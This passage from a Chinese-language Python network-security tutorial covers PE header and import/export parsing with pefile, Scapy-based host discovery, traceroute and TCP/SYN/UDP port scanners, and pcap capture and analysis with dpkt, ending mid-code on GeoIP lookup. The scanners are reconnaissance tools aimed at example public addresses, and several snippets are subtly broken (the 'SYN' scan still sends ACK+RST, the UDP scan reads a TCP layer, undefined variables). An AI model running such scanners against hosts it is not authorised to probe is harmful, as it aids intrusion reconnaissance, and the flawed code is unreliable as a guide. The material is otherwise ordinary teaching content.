    print("-" * 100)
    print("编号 \t\t\t 目录RVA\t\t 目录FOA\t\t\t 长度\t\t 描述信息")
    print("-" * 100)

    for index in range(0,optional_size):
        va = int(pe.OPTIONAL_HEADER.DATA_DIRECTORY[index].VirtualAddress)
        print("%03d \t\t 0x%08X\t\t 0x%08X\t\t %08d \t\t"
              %(index,
                pe.OPTIONAL_HEADER.DATA_DIRECTORY[index].VirtualAddress,
                RVAToFOA(pe,va),
                pe.OPTIONAL_HEADER.DATA_DIRECTORY[index].Size
                ),end="")

        if index == 0:
            print("Export symbols")
        if index == 1:
            print("Import symbols")
        if index == 2:
            print("Resources")
        if index == 3:
            print("Exception")
        if index == 4:
            print("Security")
        if index == 5:
            print("Base relocation")
        if index == 6:
            print("Debug")
        if index == 7:
            print("Copyright string")
        if index == 8:
            print("Globalptr")
        if index == 9:
            print("Thread local storage (TLS)")
        if index == 10:
            print("Load configuration")
        if index == 11:
            print("Bound Import")
        if index == 12:
            print("Import Address Table")
        if index == 13:
            print("Delay Import")
        if index == 14:
            print("COM descriptor")
        if index == 15:
            print("NoUse")

if __name__ == "__main__":
    pe = pefile.PE("d://lyshark.exe")
    ScanOptional(pe)
```

#### 21.1.7 解析导入导出表

导入表和导出表都是PE文件中的重要数据结构，分别记录着一个模块所导入和导出的函数和数据，如下所示则是使用`PeFile`模块实现对导入表与导出表的解析工作，对于导入表`ScanImport`的解析需要通过`pe.DIRECTORY_ENTRY_IMPORT`获取到完整的导入目录，并通过循环的方式输出`x.imports`中的数据即可，而对于导出表`ScanExport`则需要在`pe.DIRECTORY_ENTRY_EXPORT.symbols`导出符号中解析获取。

```python
import pefile

# 输出所有导入表模块
def ScanImport(pe):
    print("-" * 100)
    try:
        for x in pe.DIRECTORY_ENTRY_IMPORT:
            for y in x.imports:
                print("[*] 模块名称: %-20s 导入函数: %-14s" %((x.dll).decode("utf-8"),(y.name).decode("utf-8")))
    except Exception:
        pass
    print("-" * 100)

# 输出所有导出表模块
def ScanExport(pe):
    print("-" * 100)
    try:
        for exp in pe.DIRECTORY_ENTRY_EXPORT.symbols:
            print("[*] 导出序号: %-5s 模块地址: %-20s 模块名称: %-15s"
            %(exp.ordinal,hex(pe.OPTIONAL_HEADER.ImageBase + exp.address),(exp.name).decode("utf-8")))
    except:
        pass
    print("-" * 100)

if __name__ == "__main__":
    pe = pefile.PE("d://lyshark.exe")
    ScanImport(pe)
    ScanExport(pe)
```

### 21.2 使用Scapy实现端口探测

Scapy 是一款使用纯Python编写的跨平台网络数据包操控工具，它能够处理和嗅探各种网络数据包。能够很容易的创建，发送，捕获，分析和操作网络数据包，包括TCP，UDP，ICMP等协议，此外它还提供了许多有用的功能，例如嗅探网络流量，创建自定义协议和攻击网络的安全测试工具。使用Scapy可以通过Python脚本编写自定义网络协议和攻击工具，这使得网络安全测试变得更加高效和精确。

读者可自行安装`Scapy`第三方库，其次该工具依赖于PCAP接口，读者可自行安装`npcap`驱动工具包，具体的安装细节此处就不再赘述。

- 安装Scapy工具：pip install PyX matplotlib scapy
- 安装Npcap驱动：https://npcap.com/dist/

#### 21.2.1 端口扫描基础

网络端口扫描用于检测目标主机上开放的网络端口。端口扫描可以帮助安全专业人员识别存在的网络漏洞，以及识别网络上的服务和应用程序。在进行端口扫描时，扫描程序会发送特定的网络数据包，尝试与目标主机的每个端口进行通信。如果端口处于打开状态，则扫描程序将能够成功建立连接。否则，扫描程序将收到一条错误消息，表明目标主机上的该端口未开放。

常见的端口扫描技术包括TCP连接扫描、SYN扫描、UDP扫描和FIN扫描等。其中，TCP连接扫描是最常用的一种技术，它通过建立TCP连接来识别开放的端口。SYN扫描则利用TCP协议的三次握手过程来判断端口是否开放，而UDP扫描则用于识别UDP端口是否开放。FIN扫描则是利用TCP FIN数据包来探测目标主机上的端口是否处于开放状态。

在动手开发扫描软件之前，我们还是要重点复习一下协议相关的内容，这样才能真正理解不同端口扫描方式的原理，首先是TCP协议，TCP（Transmission Control Protocol）传输控制协议是一种面向连接的、可靠的、基于字节流的传输层协议。下图是TCP报文格式：



TCP报文分为头部和数据两部分，其中头部包含以下字段：

- 源端口（Source Port）：占用2个字节，表示发送端使用的端口号，范围是0-65535。
- 目的端口（Destination Port）：占用2个字节，表示接收端使用的端口号，范围是0-65535。
- 序列号（Sequence Number）：占用4个字节，表示数据段中第一个字节的序号。TCP协议中采用序号对数据进行分段，从而实现可靠传输。

- 确认号（Acknowledgement Number）：占用4个字节，表示期望收到的下一个字节的序号。TCP协议中采用确认号对接收到的数据进行确认，从而实现可靠传输。

- 数据偏移（Data Offset）：占用4个位，表示TCP头部的长度。由于TCP头部长度是可变的，该字段用于指示数据段从哪里开始。

- 保留位（Reserved）：占用6个位，保留用于将来的扩展。

- 控制位（Flags）：占用6个位，共有6个标志位，分别为URG、ACK、PSH、RST、SYN和FIN。其中，URG、ACK、PSH和RST标志的长度均为1位，SYN和FIN标志的长度为1位。

- 窗口大小（Window Size）：占用2个字节，表示发送方可接受的字节数量，用于流量控制。

- 校验和（Checksum）：占用2个字节，用于检验数据的完整性。

- 紧急指针（Urgent Pointer）：占用2个字节，表示该报文的紧急数据在数据段中的偏移量。

- 选项（Options）：可变长度，用于协商TCP参数，如最大报文长度、时间戳等。

对于端口扫描来说我们需要重点关注`控制位`中所提到的6个标志位，这些标志是我们实现扫描的关键，如下是这些标志位的说明；

- URG：紧急指针标志位，当URG=1时，表明紧急指针字段有效。它告诉系统中有紧急数据，应当尽快传送，这时不会按照原来的排队序列来传送，而会将紧急数据插入到本报文段数据的最前面。
- ACK：当ACK=1时，我们的确认序列号ack才有效，当ACK=0时，确认序号ack无效，在TCP协议中规定所有建立连接的ACK必须全部置为1。
- PSH：当该标志位被设置时，表示TCP数据包需要立即发送给接收方，而无需等待缓冲区填满。这个操作被称为推送操作，即将缓冲区的数据立即推送给接收方。
- RST：当RST=1时，表明TCP连接出现严重错误，此时必须释放连接，之后重新连接，该标志又叫重置位。
- SYN：同步序列号标志位，tcp三次握手中，第一次会将SYN=1,ACK=0，此时表示这是一个连接请求报文段，对方会将SYN=1,ACK=1，表示同意连接，连接完成之后将SYN=0。
- FIN：在tcp四次挥手时第一次将FIN=1，表示此报文段的发送方数据已经发送完毕，这是一个释放链接的标志。

接着我们来具体看一下在`TCP/IP`协议中，TCP是如何采用三次握手四次挥手实现数据包的通信功能的，如下是一个简单的通信流程图；



（1） 第一次握手：建立连接时，客户端A发送`SYN`包(SYN=j)到服务器B，以及初始序号X，保存在包头的序列号(Sequence Number)字段里，并进入`SYN_SEND`状态，等待服务器B确认。



（2）第二次握手：服务器B收到`SYN`包，必须确认客户A的`SYN`(ACK=j+1)，同时自己也发送一个`SYN`包(SYN=k)，即`SYN+ACK`包，此时服务器B进入`SYN_RECV`状态。



（3） 第三次握手：客户端A收到服务器B的`SYN＋ACK`包，向服务器B发送确认包`ACK`(ACK=k+1)，此包发送完毕，客户端A和服务器B进入`ESTABLISHED`状态，完成三次握手。至此服务端与客户端之间就可以传输数据了。



#### 21.2.2 ICMP构建与发送

首先我们先来构建并实现一个`ICMP`数据包，在之前的文章中笔者已经通过C语言实现了数据包的构建，当然使用C语言构建数据包是一件非常繁琐的实现，通过运用`Scapy`则可以使数据包的构建变得很容易，ICMP数据包上层是`IP`头部，所以在构造数据包时应先构造`IP`包头，然后再构造`ICMP`包头，如下我们先使用`ls(IP)`查询一下`IP`包头的结构定义，然后再分别构造参数。

```python
>>> from scapy.all import *
>>> from random import randint
>>> import time
>>>
>>> uuid = randint(1,65534)
>>> ls(IP)                                                           # 查询IP头部定义
version    : BitField  (4 bits)                  = (4)
ihl        : BitField  (4 bits)                  = (None)
tos        : XByteField                          = (0)
len        : ShortField                          = (None)
id         : ShortField                          = (1)
flags      : FlagsField  (3 bits)                = (<Flag 0 ()>)
frag       : BitField  (13 bits)                 = (0)
ttl        : ByteField                           = (64)
proto      : ByteEnumField                       = (0)
chksum     : XShortField                         = (None)
src        : SourceIPField                       = (None)
dst        : DestIPField                         = (None)
options    : PacketListField                     = ([])
>>>
>>> ip_header = IP(dst="192.168.1.1",ttl=64,id=uuid)           # 构造IP数据包头
>>> ip_header.show()                                           # 输出构造好的包头
###[ IP ]###
  version   = 4
  ihl       = None
  tos       = 0x0
  len       = None
  id        = 64541
  flags     =
  frag      = 0
  ttl       = 64
  proto     = ip
  chksum    = None
  src       = 192.168.1.101
  dst       = 192.168.1.1
  \options   \

>>> ip_header.summary()
'192.168.1.101 > 192.168.1.1 ip'
```
上述代码中我们已经构造了一个`IP`包头，接着我们还需要构造一个`ICMP`包头，该包头的构造可以使用`ICMP()`并传入两个参数，如下则是构造好的一个`ICMP`包头。

```python
>>> ICMP()
<ICMP  |>
>>>
>>> icmp_header = ICMP(id=uuid, seq=uuid)
>>>
>>> icmp_header
<ICMP  id=0xfc1d seq=0xfc1d |>
>>> icmp_header.show()
###[ ICMP ]###
  type      = echo-request
  code      = 0
  chksum    = None
  id        = 0xfc1d
  seq       = 0xfc1d
```
接着我们需要将上述两个包头粘贴在一起，通过使用`/`将来给你这进行拼接，并在`icmp_header`后面增加我们所有发送的数据包字符串，最终将构造好的数据包存储至`packet`变量内，此时输入`packet.summary()`即可查看构造的数据包字符串。

```python
>>> packet = ip_header / icmp_header / "hello lyshark"
>>>
>>> packet
<IP  id=64541 frag=0 ttl=64 proto=icmp dst=192.168.1.1 |<ICMP  id=0xfc1d seq=0xfc1d |<Raw  load='hello lyshark' |>>>
>>>
>>> packet.summary()
'IP / ICMP 192.168.1.101 > 192.168.1.1 echo-request 0 / Raw'
>>>
```
当我们构造好一个数据包后，下一步则是需要将该数据包发送出去，对于发送数据包`Scapy`中提供了多种发送函数，如下则是不同的几种发包方式，当我们呢最常用的还是`sr1()`该函数用于发送数据包并只接受回显数据。

- send(pkt)：发送三层数据包，但不会受到返回的结果
- sr(pkt)：发送三层数据包，返回两个结果，分别是接收到响应的数据包和未收到响应的数据包
- sr1(pkt)：发送三层数据包，仅仅返回接收到响应的数据包
- sendp(pkt)：发送二层数据包
- srp(pkt)：发送二层数据包，并等待响应
- srp1(pkt)：发送第二层数据包，并返回响应的数据包

此处我们就以`sr1()`函数作为演示目标，通过构造数据包并调用`sr1()`将该数据包发送出去，并等待返回响应数据到`respon`变量内，此时通过对该变量进行解析即可得到当前`ICMP`的状态。

```python
>>> respon = sr1(packet,timeout=3,verbose=0)
>>> respon
<IP  version=4 ihl=5 tos=0x0 len=41 id=26086 flags= frag=0 ttl=64 proto=icmp chksum=0x9137 src=192.168.1.1 dst=192.168.1.101 |<ICMP  type=echo-reply code=0 chksum=0x177d id=0xfc1d seq=0xfc1d |<Raw  load='hello lyshark' |<Padding  load='\x00\x00\x00\x00\x00' |>>>>
>>>
>>> respon[IP].src
'192.168.1.1'
>>>
>>> respon[IP].ttl
64
>>> respon.fields
{'options': [], 'version': 4, 'ihl': 5, 'tos': 0, 'len': 41, 'id': 26086, 'flags': <Flag 0 ()>, 'frag': 0, 'ttl': 64, 'proto': 1, 'chksum': 37175, 'src': '192.168.1.1', 'dst': '192.168.1.101'}
```
上述流程就是一个简单的`ICMP`的探测过程，我们可以将这段代码进行组合封装实现`ICMP_Ping`函数，该函数只需要传入一个`IP`地址即可返回特定地址是否在线，同时我们使用`ipaddress.ip_network`则可生成一整个`C`段中的地址信息，并配合`threading`启用多线程，则可实现一个简单的主机存活探测工具，完整代码如下所示；

```python
from scapy.all import *
from random import randint
import time,ipaddress,threading
import argparse
import logging

def ICMP_Ping(addr):
    RandomID=randint(1,65534)
    packet = IP(dst=addr, ttl=64, id=RandomID) / ICMP(id=RandomID, seq=RandomID) / "hello lyshark"
    respon = sr1(packet,timeout=3,verbose=0)
    if respon:
        print("[+] 存活地址: {}".format(str(respon[IP].src)))

if __name__== "__main__":
    logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
    #net = ipaddress.ip_network("192.168.1.0/24")
    parser = argparse.ArgumentParser()
    parser.add_argument("-a","--addr",dest="addr",help="指定一个IP地址或范围")
    args = parser.parse_args()
    if args.addr:
        net = ipaddress.ip_network(str(args.addr))
        for item in net:
            t = threading.Thread(target=ICMP_Ping,args=(str(item),))
            t.start()
    else:
        parser.print_help()
```

读者可自行运行上述程序片段，并传入`main.py -a 192.168.9.0/24`表示扫描整个C段，并输出存活主机列表，其中`logging`模块则用于指定只有错误提示才会输出，其他的警告忽略。扫描结果如下图所示；



接着我们继续实现路由追踪功能，跟踪路由原理是`IP`路由每经过一个路由节点`TTL`值会减一，假设`TTL`值为`0`时数据包还没有到达目标主机，那么该路由则会回复给目标主机一个数据包不可达，由此我们就可以获取到目标主机的`IP`地址，我们首先构造一个数据包，并设置`TTL`值为`1`，将该数据包发送出去即可看到回显主机的IP信息。

```python
>>> from scapy.all import *
>>> from random import randint
>>> import time
>>>
>>> RandomID=randint(1,65534)
>>> packet = IP(dst="104.193.88.77", ttl=1, id=RandomID) / ICMP(id=RandomID, seq=RandomID) / "hello"
>>> respon = sr1(packet,timeout=3,verbose=0)
>>>
>>> respon
<IP  version=4 ihl=5 tos=0xc0 len=61 id=14866 flags= frag=0 ttl=64 proto=icmp chksum=0xbc9a src=192.168.1.1 dst=192.168.1.2 |<ICMP  type=time-exceeded code=ttl-zero-during-transit chksum=0xf4ff reserved=0 length=0 unused=None |<IPerror  version=4 ihl=5 tos=0x0 len=33 id=49588 flags= frag=0 ttl=1 proto=icmp chksum=0x4f79 src=192.168.1.2 dst=104.193.88.77 |<ICMPerror  type=echo-request code=0 chksum=0x30c4 id=0xc1b4 seq=0xc1b4 |<Raw  load='hello' |>>>>>
```

关于如何实现路由跟踪，具体来说一开始发送一个`TTL`为`1`的数据包，这样到达第一个路由器的时候就已经超时了，第一个路由器就会返回一个`ICMP`通知，该通知包含了对端的`IP`地址，这样就能够记录下所经过的第一个路由器的地址。接着将`TTL`值加1，让其能够安全的通过第一个路由器，而第二个路由器的的处理过程会自动丢包，发通包超时通知，这样记录下第二个路由器`IP`，由此能够一直进行下去，直到这个数据包到达目标主机，由此打印出全部经过的路由器。

将上述跟踪过程自动化，就可以完成数据包的跟踪，其`Python`代码如下所示。

```python
from scapy.all import *
from random import randint
import time,ipaddress,threading
from optparse import OptionParser
import logging

def TraceRouteTTL(addr):
    for item in range(1,128):
        RandomID=randint(1,65534)
        packet = IP(dst=addr, ttl=item, id=RandomID) / ICMP(id=RandomID, seq=RandomID)
        respon = sr1(packet,timeout=3,verbose=0)
        if respon != None:
            ip_src = str(respon[IP].src)
            if ip_src != addr:
                print("[+] --> {}".format(str(respon[IP].src)))
            else:
                print("[+] --> {}".format(str(respon[IP].src)))
                return 1
        else:
            print("[-] --> TimeOut")
        time.sleep(1)

if __name__== "__main__":
    logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
    parser = OptionParser()
    parser.add_option("-a","--addr",dest="addr",help="指定一个地址或范围")
    (options,args) = parser.parse_args()
    if options.addr:
        TraceRouteTTL(str(options.addr))
    else:
        parser.print_help()
```

读者可自行运行上述程序片段，并传入`main.py --addr 104.193.88.77`表示跟踪从本机到目标`104.193.88.77`主机所经过的路由器地址信息，并将扫描结果输出如下图所示；



#### 21.2.3 TCP全连接扫描

TCP Connect 扫描又叫做全连接扫描，它是一种常用的端口扫描技术。在这种扫描中，扫描程序向目标主机发送`TCP`连接请求包（`SYN包`），如果目标主机回应了一个`TCP`连接确认包（`SYN-ACK`包），则说明该端口处于开放状态。否则，如果目标主机回应了一个`TCP`复位包（`RST`包）或者没有任何响应，则说明该端口处于关闭状态。这种扫描技术的优点是准确性高，因为它可以在不建立实际连接的情况下确定目标主机的端口状态。但是，缺点是这种扫描技术很容易被目标主机的防火墙或入侵检测系统检测到。

全连接扫描需要客户端与服务器之间直接建立一次完整的握手，该方式扫描速度慢效率低，我们需要使用`Scapy`构造完整的全连接来实现一次探测，在使用该工具包时读者应该注意工具包针对`flags`所代指的标识符`RA/AR/SA`含义，这些标志是`Scapy`框架中各种数据包的简写，此外针对数据包的定义有以下几种；

- F：FIN 结束，结束会话
- S：SYN 同步，表示开始会话请求
- R：RST 复位，中断一个连接
- P：PUSH 推送，数据包立即发送
- A：ACK 应答
- U：URG 紧急
- E：ECE 显式拥塞提醒回应
- W：CWR 拥塞窗口减少

实现全链接扫描我们封装并实现一个`tcpScan()`函数，该函数接收两个参数一个扫描目标地址，一个扫描端口列表，通过对数据包的收发判断即可获取特定主机开放状态；

```python
from scapy.all import *
import argparse
import logging

def tcpScan(target,ports):
    for port in ports:
        # S 代表发送SYN报文
        send=sr1(IP(dst=target)/TCP(dport=port,flags="S"),timeout=2,verbose=0)
        if (send is None):
            continue
        # 如果是TCP数据包
        elif send.haslayer("TCP"):
            # 是否是 SYN+ACK 应答
            if send["TCP"].flags == "SA":
                # 发送ACK+RST数据包完成三次握手
                send_1 = sr1(IP(dst=target) / TCP(dport=port, flags="AR"), timeout=2, verbose=0)
                print("[+] 扫描主机: %-13s 端口: %-5s 开放" %(target,port))
            elif send["TCP"].flags == "RA":
                print("[+] 扫描主机: %-13s 端口: %-5s 关闭" %(target,port))

if __name__ == "__main__":
    logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
    # 使用方式: main.py -H 192.168.1.10 -p 80,8080,443,445
    parser = argparse.ArgumentParser()
    parser.add_argument("-H","--host",dest="host",help="输入一个被攻击主机IP地址")
    parser.add_argument("-p","--port",dest="port",help="输入端口列表 [80,443,135]")
    args = parser.parse_args()
    if args.host and args.port:
        tcpScan(args.host,eval(args.port))
    else:
        parser.print_help()
```

运行上述代码片段，并传入`59.110.117.109`地址以及，端口`80,8080,443,445`程序将依次扫描这些端口，并输出如下图所示；



#### 21.2.4 SYN半开放扫描

TCP SYN扫描又称半开式扫描，该过程不会和服务端建立完整的连接，其原理是利用了`TCP`协议中的一个机制，即在`TCP`三次握手过程中，客户端发送`SYN`包到服务端，服务端回应`SYN+ACK`包给客户端，最后客户端回应`ACK`包给服务端。如果服务端回应了`SYN+ACK`包，说明该端口是开放的；如果服务端回应了`RST`包，说明该端口是关闭的。

TCP SYN扫描的优点是不会像`TCP Connect`扫描那样建立完整的连接，因此不会留下大量的日志，可以有效地隐藏扫描行为。缺点是在扫描过程中会产生大量的半连接，容易被`IDS/IPS`等安全设备检测到，而且可能会对目标主机造成负担。

SYN扫描不会和服务端建立完整的连接，从而能够在一定程度上提高扫描器的效率，该扫描方式在代码实现上和全连接扫描区别不大，只是在结束到服务端响应数据包之后直接发送`RST`包结束连接，上述代码只需要进行简单修改，将`send_1`处改为`R`标志即可；

```python
from scapy.all import *
import argparse
import logging

def tcpSynScan(target,ports):
    for port in ports:
        # S 代表发送SYN报文
        send=sr1(IP(dst=target)/TCP(dport=port,flags="S"),timeout=2,verbose=0)
        if (send is None):
            continue
        # 如果是TCP数据包
        elif send.haslayer("TCP"):
            # 是否是 SYN+ACK 应答
            if send["TCP"].flags == "SA":
                # 发送ACK+RST数据包完成三次握手
                send_1 = sr1(IP(dst=target) / TCP(dport=port, flags="AR"), timeout=2, verbose=0)
                print("[+] 扫描主机: %-13s 端口: %-5s 开放" %(target,port))
            elif send["TCP"].flags == "RA":
                print("[+] 扫描主机: %-13s 端口: %-5s 关闭" %(target,port))
            else:
                print("[+] 扫描主机: %-13s 端口: %-5s 关闭" %(target,port))

if __name__ == "__main__":
    logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
    # 使用方式: main.py -H 192.168.1.10 -p 80,8080,443,445
    parser = argparse.ArgumentParser()
    parser.add_argument("-H","--host",dest="host",help="输入一个被攻击主机IP地址")
    parser.add_argument("-p","--port",dest="port",help="输入端口列表 [80,443,135]")
    args = parser.parse_args()
    if args.host and args.port:
        tcpSynScan(args.host,eval(args.port))
    else:
        parser.print_help()
```

同理，我们分别传入被扫描主机IP地址以及需要扫描的端口号列表，当扫描结束后即可输出如下图所示的结果；



#### 21.2.5 UDP无状态扫描

UDP 无状态扫描是一种常见的网络扫描技术，其基本原理与`TCP SYN`扫描类似。不同之处在于`UDP`协议是无连接的、无状态的，因此无法像`TCP`一样建立连接并进行三次握手。

UDP 无状态扫描的基本流程如下：

- 客户端向服务器发送带有端口号的`UDP`数据包，如果服务器回复了`UDP`数据包，则目标端口是开放的。
- 如果服务器返回了一个`ICMP`目标不可达的错误和代码`3`，则意味着目标端口处于关闭状态。
- 如果服务器返回一个`ICMP`错误类型`3`且代码为`1，2，3，9，10`或`13`的数据包，则说明目标端口被服务器过滤了。
- 如果服务器没有任何相应客户端的`UDP`请求，则可以断定目标端口可能是开放或被过滤的，无法判断端口的最终状态。

读者需要注意，UDP 无状态扫描可能会出现误报或漏报的情况。由于`UDP`协议是无连接的、无状态的，因此`UDP`端口不可达错误消息可能会被目标主机过滤掉或者由于网络延迟等原因无法到达扫描主机，从而导致扫描结果不准确。

```python
from scapy.all import *
import argparse
import logging

def udpScan(target,ports):
    for port in ports:
        udp_scan_resp = sr1(IP(dst=target)/UDP(dport=port),timeout=5,verbose=0)
        if (str(type(udp_scan_resp))=="<class 'NoneType'>"):
             print("[+] 扫描主机: %-13s 端口: %-5s 关闭" %(target,port))
        elif(udp_scan_resp.haslayer(UDP)):
            if(udp_scan_resp.getlayer(TCP).flags == "R"):
                print("[+] 扫描主机: %-13s 端口: %-5s 开放" %(target,port))
        elif(udp_scan_resp.haslayer(ICMP)):
            if(int(udp_scan_resp.getlayer(ICMP).type)==3 and int(udp_scan_resp.getlayer(ICMP).code) in [1,2,3,9,10,13]):
                 print("[+] 扫描主机: %-13s 端口: %-5s 关闭" %(target,port))

if __name__ == "__main__":
    logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
    parser = argparse.ArgumentParser()
    parser.add_argument("-H","--host",dest="host",help="")
    parser.add_argument("-p","--port",dest="port",help="")
    args = parser.parse_args()
    if args.host and args.port:
        udpScan(args.host,eval(args.port))
    else:
        parser.print_help()
```

运行上述代码，并传入不同的参数，即可看到如下图所示的扫描结果，读者需要注意因为`UDP`的特殊性导致端口扫描无法更精确的判定；



### 21.3 使用DPKT分析数据包

dpkt项目是一个`Python`模块，主要用于对网络数据包进行解析和操作。它可以处理多种协议，例如`TCP`、`UDP`、`IP`等，并提供了一些常用的网络操作功能，例如计算校验和、解析`DNS`数据包等。由于其简单易用的特性，`dpkt`被广泛应用于网络安全领域，例如流量分析、漏洞利用、入侵检测等。使用该库可以快速解析通过各类抓包工具抓到的数据包，从而提取分析包内的参数。

- 安装DPKT工具：pip install dpkt

#### 21.3.1 抓取PCAP数据包

在分析数据包之前我们需要抓取特定数据包并保存为`*.pcap`格式，通常情况下这种数据包格式可通过`WireShark`等工具抓取到，当然也可以使用上一篇提到的`Scapy`库实现，该库中存在一个`sniff`函数，该函数可以实现网络抓包功能，如下一个演示案例我们分别通过`sniff(count=2)`函数抓取两个数据包并使用`wrpcap()`函数将其保存到文件内，当需要分析时可通过调用`rdpcap()`函数打开数据包即可实现分析。

```python
>>> from scapy.all import *
>>>
>>> packets = sniff(count=2)                            # 动态抓取2个数据包
>>>
>>> wrpcap("d://lyshark.pcap",packets)                  # 保存数据包
>>> pcap_packets = rdpcap("d://lyshark.pcap")           # 读取数据包
>>>
>>> pcap_packets
<lyshark.pcap: TCP:2 UDP:0 ICMP:0 Other:0>
>>>
>>> pcap_packets.show()
0000 Ether / IP / TCP 192.168.1.101:63995 > 172.217.24.10:https S
0001 Ether / IP / TCP 192.168.1.101:63907 > 103.235.46.191:https A / Raw
>>>
>>> pcap_packets.summary()
Ether / IP / TCP 192.168.1.101:63995 > 172.217.24.10:https S
Ether / IP / TCP 192.168.1.101:63907 > 103.235.46.191:https A / Raw
>>>
>>> pcap_packets[0].dst
'FF:2d:1e:0f:1e:a1'
>>>
>>> pcap_packets[0].src
'a4:7e:33:ee:cc:b3'
>>>
# 如下分别代表: 链路层 [Ethernet]、网络层[IP]、传输层[TCP/UDP]、应用层[RAW]
>>> pcap_packets[0].show()
>>>
# 抓包后直接输出
>>> sniff(prn=lambda x: x.show(), count=1)
```
通过上方的抓包流程读者即可实现简单的抓包功能，当然`sniff`函数参数众多我们完全可以在抓包时增加不同的抓包条件，同时该函数也支持回调函数，当由新的请求被触发时则自动执行回调函数，如下则是使用`Scapy`抓包的完整案例，该案例展示了抓取`60`秒数据包，并将其保存至`d://lyshark.pcap`目录。

```python
from scapy.all import *
import scapy.all as scapy

# 数据包回调函数
def packet_callback(packet):
    if packet[TCP].payload:
        m_packet = str(packet[TCP].payload)
        print("主机地址: {} ---> 数据包内容: {}".format(packet[IP].dst,packet[TCP].payload))

if __name__ == "__main__":
    # 抓取80端口的数据包并输出到屏幕
    # sniff(filter="tcp port 80", prn=packet_callback, store=0)

    # 抓取 过滤出tcp协议 抓取1分钟后保存到文件中
    package=sniff(filter="tcp", timeout=60, prn=packet_callback, store=1)
    wrpcap("d://lyshark.pcap", package)
```

运行上方抓包程序，读者可看到如下图所示的输出结果，等待`60`秒后即可看到`d://lyshark.pcap`文件。



当读者抓取到这些数据包之后，下一步则是解析这些数据包，解析的方法有许多可以使用`DPKT`解析，也可以使用`scapy`自带的工具解析，本章首先介绍如何使用`Scapy`工具实现解析数据包内的`HTTP`请求，并输出的功能，如下是完整的代码实现；

```python
from scapy.all import *
import scapy.all as scapy

# 解析获取到的数据包
def get_http_pcap(pcap_path):
    pcap_infos = list()
    packets = scapy.rdpcap(pcap_path)
    for p in packets:
        if p.haslayer("IP"):
            src_ip = p["IP"].src
            dst_ip = p["IP"].dst
        if p.haslayer("TCP"):
            raw_http = p["TCP"].payload.original
            sport = p["TCP"].sport
            dport = p["TCP"].dport
        if p.haslayer("HTTPRequest"):
            host = p["HTTPRequest"].Host
            uri = p["HTTPRequest"].Path
            http_fields = p["HTTPRequest"].fields
            # print("主机地址: {} --> URI: {}".format(host,uri))
        print("原IP地址: {}:{} --> 目标IP地址: {}:{}".format(src_ip,sport,dst_ip,dport))

if __name__ == "__main__":
    get_http_pcap("d://lyshark.pcap")
```

读者可自行运行上述代码，并传入刚才抓取到的`lyshark.pcap`数据包，此时则可解析出当前数据包中所有HTTP访问数据，如下图所示；



对于数据包的解包功能，`Dpkt`工具包也可以很好的完成，对于使用`Dpkt`解包而言，首先需要通过`open()`打开数据包，接着调用`dpkt.pcap.Reader(fp)`将文件内的字节转化为PCAP格式，最后调用自定义函数`GetDpkt`根据字段进行解析即可。

```python
import dpkt
import socket

def GetDpkt(pcap):
    for timestamp,packet in pcap:
        try:
            eth = dpkt.ethernet.Ethernet(packet)
            ip = eth.data
            tcp = ip.data

            src = socket.inet_ntoa(ip.src)
            dst = socket.inet_ntoa(ip.dst)
            sport = tcp.sport
            dport = tcp.dport
            print("[+] 源地址: {}:{} --> 目标地址:{}:{}".format(src,sport,dst,dport))
        except Exception:
            pass

# 检测主机是否被DDOS攻击了
def FindDDosAttack(pcap):
    pktCount = {}
    for timestamp,packet in pcap:
        try:
            eth = dpkt.ethernet.Ethernet(packet)
            ip = eth.data
            tcp = ip.data
            src = socket.inet_ntoa(ip.src)
            dst = socket.inet_ntoa(ip.dst)
            sport = tcp.sport
            # 累计判断各个src地址对目标地址80端口访问次数
            if dport == 80:
                stream = src + ":" + dst
                if pktCount.has_key(stream):
                    pktCount[stream] = pktCount[stream] + 1
                else:
                    pktCount[stream] = 1
        except Exception:
            pass
    for stream in pktCount:
        pktSent = pktCount[stream]
        # 如果超过设置的检测阈值500,则判断为DDOS攻击行为
        if pktSent > 500:
            src = stream.split(":")[0]
            dst = stream.split(":")[1]
            print("[+] 源地址: {} 攻击: {} 流量: {} pkts.".format(src,dst,str(pktSent)))

# FindPcapURL 监控提取数据包中的所有URL
def FindPcapURL(pcap):
    Url = []
    for timestamp,packet in pcap:
        try:
            eth = dpkt.ethernet.Ethernet(packet)
            ip = eth.data
            src = socket.inet_ntoa(ip.src)
            tcp = ip.data
            http = dpkt.http.Request(tcp.data)
            if(http.method == "GET"):
                UrlHead = http.headers
                for key,value in UrlHead.items():
                    url = re.findall('^https*://.*',str(value))
                    if url:
                        print("[+] 源地址: %10s --> 访问URL: %-80s"%(src, url[0]))
        except Exception:
            pass
    return set(Url)

# 动态保存pcap文件(每1024字节保存一次pcap文件),并读取出其中的网址解析出来
def write_cap(pkt):
    global pkts
    global count
    pkts.append(pkt)
    count += 1
    if count == 1024:
        wrpcap("data.pcap",pkts)
        fp = open("./data.pcap","rb")
        pcap = dpkt.pcap.Reader(fp)
        FindPcapURL(pcap)
        fp.close()
        pkts,count = [],0

if __name__ == "__main__":
    fp = open("d://lyshark.pcap","rb")
    pcap = dpkt.pcap.Reader(fp)
    GetDpkt(pcap)
```

运行上述代码，同样可以输出这些IP信息，如下图所示；



#### 21.3.2 使用Google地图定位

GeoIP2是一种IP地址定位库，它允许开发人员根据`IP`地址查找有关位置和地理位置的信息。它使用`MaxMind`公司的IP地址数据库，并提供一个方便的Python API。GeoIP2可以用于许多不同的应用程序，例如网站分析、广告定位和身份验证。GeoIP2提供了许多不同的信息，例如国家、城市、邮政编码、经纬度、时区等等。它还可以使用IPv6地址进行查询。

- 安装第三方库：pip install geoip2
- GitHub地址：https://github.com/maxmind/GeoIP2-python
- 离线数据库：https://www.maxmind.com/en/accounts/current/geoip/downloads

读者可自行执行`pip install geoip2`命令安装这个第三方库，并自行下载对应免费版本的`GeoLite2-City.mmdb`主机数据库文件，当一切准备就绪以后我们就可以使用该数据库定位位置了，如下代码是一个演示案例，首先通过`GetPcap`将数据包解析并存储值`ret`变量内返回，当返回后通过`geoip2.database`加载数据库文件，并通过循环的方式以此查询`reader.city`数据，并将详细地址输出。

```python
import dpkt
import socket
import geoip2.database

def GetPcap(pcap):
    ret = []
    for timestamp,packet in pcap:
        try:
            eth = dpkt.ethernet.Ethernet(packet)
            ip = eth.data
